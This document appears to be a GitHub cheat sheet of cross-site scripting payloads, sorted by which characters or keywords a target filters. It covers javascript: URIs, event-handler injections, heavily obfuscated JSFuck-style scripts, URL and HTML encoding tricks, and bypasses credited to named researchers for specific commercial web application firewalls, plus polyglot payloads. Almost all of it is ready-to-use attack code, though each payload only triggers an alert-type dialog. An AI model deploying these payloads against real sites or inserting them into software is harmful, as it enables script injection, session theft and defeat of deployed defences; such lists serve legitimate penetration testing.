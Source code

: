 ### 1.If you cannot escape from the attribute (" is being encoded or deleted)

Try to use this payloads :
```js
1) <a href="javascript:alert(1)">Click</a>

2) <a href="&#01;javascript:alert(1)">Click</a>

3) <a href="javascript:{ alert`0` }">Click</a>

4) <a src="google.com" onclick="alert(1)">Click</a>

```
Or try to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be:
```js
4) \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
```

### 2.If you can escape from the attribute but not from the tag (> is encoded or deleted)

Try to event handlers :
```js
1) <input   value"XXXXXXX"   onclick=alert(1)  >Click</input>

2) <input  type:"text" value="XSS"  accesskey="x" onclick="alert(1)" >

3) <img src=x  onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

4) </div><a  src="google.com"  href="javaSCRIPT&colon;alert(/xss/)">XSS</a>

5) <a  href=https://google.com onclick=alert(document.location.hash.substring(1))#{saasasasas}>Click</a>
```
or use encodes:
```js
use Unicodes - UTF8 - UTF16 - UTF32
%3cscript%3e
%253cscript%253e
&lt;script&gt;

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>

Burp Suite > Convert Selection > HTML > HTML-encode all character
<a href="javascript:alert(1)">Click</a> =
&lt;&#97;&#32;&#104;&#114;&#101;&#102;&#61;&quot;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&quot;&gt;&#67;&#108;&#105;&#99;&#107;&lt;&#47;&#97;&gt;
```
### 3.If alert is encoded or deleted

Try to use this payloads :
```js
1) <script>$='',_=!$+$,$$=!_+$,$_=$+{},_$=_[$++],__=_[_$$=$],_$_=++_$$+$,$$$=$_[_$$+_$_],_[$$$+=$_[$]+(_.$$+$_)[$]+$$[_$_]+_$+__+_[_$$]+$$$+_$+$_[$]+__][$$$]($$[$]+$$[_$$]+_[_$_]+__+_$+"($)")()</script>

2) <script>[[,$,_,$$,__,$_,_$,$$$,$__,,___]=[![]+[]+!![]][+[]]+[][[]]],$$_=[][$+$_],[,,,$_$,,,_$$,,,,,__$,_$_]=[...$$_+[]],$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$$$_[$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$]($+_+__+_$+$_+__$+[+!!$]+_$_)()</script>

3) <script>([,O,B,J,E,C,,]=[]+{},[T,R,U,E,F,A,L,S,,,N]=[!!O]+!O+B.E)[X=C+O+N+S+T+R+U+C+T+O+R][X](A+L+E+R+T+`(1)`)()</script>
   
4) <html>
   <body>
   <head>
   <meta charset="utf-8">   
   </head> 
   <script>
   ᐁ='',ᐃ=!ᐁ+ᐁ,ᐅ=!ᐃ+ᐁ
   ᐊ=ᐁ+{},ᐄ=ᐃ[ᐁ++],ᐆ=
   ᐃ[ᐋ=ᐁ],ᐒ=++ᐋ+ᐁ,ᐗ
   =ᐊ[ᐋ+ᐒ],ᐃ[ᐗ+=ᐊ[ᐁ]
   +(ᐃ.ᐅ+ᐊ)[ᐁ]+ᐅ[ᐒ]+ᐄ
   +ᐆ+ᐃ[ᐋ]+ᐗ+ᐄ+ᐊ[ᐁ]
   +ᐆ][ᐗ](ᐅ[ᐁ]+ᐅ[ᐋ]+ᐃ
   [ᐒ]+ᐆ+ᐄ+"`ᐁᐃ`")()
   </script>
   </html>
   </body>

5) <script>prompt(1)</script>

6) <a"/onclick=(confirm)()>Click Here!

7) <script>/&/-alert(1)</script>
<script>/&amp;/-alert(1)</script>

8) %00%00%00%00%00%00%00<script>alert(1)</script>     (1.Null bytes are output   2.There is no space character immediately before)

9) <sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`">

10) <bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click 

11) <script>alert.call(null,1)</script>   (alert.call(%20, "XSS");)

12) <script>confirm.call(null,1)</script>

13) <script>prompt.call(null,1)</script>

14) <script>alert.apply(null, [1])</script>
```

### 4.If space is encoded or deleted
```js
use tab url encode : %09
<input%09value"XXXXXXX"%09onclick=alert(1)>Click</input>
```

### 5.If () is encoded or deleted
```js
<script>alert`1`</script>
```

### 5.If <script> is encoded or deleted try other tags like:
```js
SVG, img, iframe 
```
   
### 6.Some WAF bypass:
```js
@vanshitmalhotra | Bypass AWS WAF -// 
Add "<!" (without quotes) before your payload and bypass that WAF. :)
eg: <!<script>confirm(1)</script>

@black0x00mamba | Bypass WAF Akamaighost & filtered onload, onclick, href, src, onerror, script, etc 
<img  sr%00c=x o%00nerror=((pro%00mpt(1)))>

DotDefender WAF bypass by @0xInfection 
<bleh/ondragstart=&Tab;parent&Tab;['open']&Tab;&lpar;&rpar;%20draggable=True>dragme

@LooseSecurity | Updated CloudFlare bypass (bypasses virtually all WAF you'll encounter in the wild):
<iframe/src='%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A:prompt`1`'>
Javascript URI cushioned between carriage returns with a non-bracketed prompt.

@daveysec | Was able to bypass Imperva Incapsula WAF with:
<svg onload\r\n=$.globalEval("al"+"ert()");>

@rodolfoassis | Wordfence 7.4.2
<a href=&#01javascript:alert(1)>

rodolfoassis | Sucuri CloudProxy (POST only)
<a href=javascript&colon;confirm(1)>

rodolfoassis | ModSecurity CRS 3.2.0 PL1
<a href="jav%0Dascript&colon;alert(1)">
``` 

### 7.Some good stuffs:
```js
https://github.com/Walidhossain010/WAF-bypass-xss-payloads
https://aswingovind.medium.com/content-spoofing-yes-html-injection-39611d9a4057
```

### 7.XSS PolyglotsPolice: revolving allow you to test multiple XSS scenarios with ONE payload.  Work smarter not harder:
![xss](https://user-images.githubusercontent.com/63053441/148800150-58f87374-41ad-4ea8-8887-510c652c7452.jpg)
```js
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

